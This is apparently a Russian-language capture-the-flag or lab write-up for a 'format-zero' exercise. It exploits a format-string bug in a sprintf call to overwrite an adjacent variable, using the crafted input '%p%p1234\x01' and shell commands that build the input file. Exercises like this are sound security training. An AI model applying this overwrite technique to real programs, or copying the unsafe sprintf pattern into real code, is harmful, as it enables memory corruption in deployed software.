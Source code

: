 Задача - изменить значение поля `changeme` в структуре 
```
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
```

Уязвимое место 
```
char buffer[16];
sprintf(locals.dest, buffer);
```

т.к. адрес в формате строки занимает 14 байт, надо сформировать строку "%p%p1234\x01", чтобы `changeme` стало = 1

Заполняем файл inputfileFZ
```
python -c "print('%p%p1234\x01')" > inputfileFZ
```

И убираем байт \0a
```
truncate -s -1 inputfileFZ
```

Параметры buffer и dest до вызова функции
![alt text](../images/format-zero/1.png)

Содержимое dest и changeme
![alt text](../images/format-zero/2.png)

Победа\ 
![alt text](../images/format-zero/3.png)